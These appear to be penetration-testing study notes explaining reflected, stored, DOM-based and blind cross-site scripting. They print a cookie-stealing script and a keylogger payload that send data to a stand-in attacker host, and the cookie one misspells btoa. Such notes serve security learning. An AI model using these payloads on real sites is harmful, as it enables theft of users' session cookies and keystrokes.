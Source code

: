 ```yaml
---
description: Eighth section in Jr Penetration Tester learning path.
---
```


# XSS (Cross-site Scripting)

### XSS Payloads

In XSS, the payload is the JavaScript which is executed on the targets computer, there are two parts to the payload: the intention and the modification. The intention is what you want the JavaScript to do, and the modification is the changes we need to make so it executes.

The simplest proof of concept (POC) payload will cause an alert box to pop up on the page with text, for example: `<script>alert('XSS');</script>`.

This payload would take the targets cookies, base64 encode them, and then post them to a website controlled by the attacker: `<script>fetch('https://example.com/steal?cookie=' + bota(document.cookie));</script>`.

This payload would create a keylogger on the target and forward any keystrokes to a website controlled by the attacker: `<script>document.onkeypress = function(e) { fetch('https://example.com/log?key=' + btoa(e.key) );}</script>`.

### Reflected XSS

This occurs when user supplied data in a HTTP request is included in the webpage source with no validation. This allows an attacker to send links or embed them into an iframe on a website containing a JavaScript payload. To test for this, look for:

* Parameters in the URL query string
* URL file path
* Sometimes HTTP headers (unlikely exploitable in practice)

### Stored XSS

The XSS payload is stored on the web application and gets run when other users visit the site or web page. This could redirect users, or steal a user's session cookies. To test for this, look for points where data is stored and then shown back in areas other users have access to:

* Comments on a blog
* User profile info
* Website listings

### DOM Based XSS

DOM (Document Object Model) is a programming interface for HTML and XML documents. It represents the page so that programs can change the document structure, style and content. DOM based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to back-end code. DOM based XSS is hard to look for and requires knowledge of JavaScript to read the source code. You would look for parts of the code that access variables an attacker can have control over like "window.location.x".

### Blind XSS

Similar to stored XSS but you can't see the payload working or test it against yourself first. With the correct payload, an attacker can call back to their own site, revealing portal URLs, cookies or even page contents. To test for blind XSS you need to ensure your payload has a callback, so you know the code is being executed.

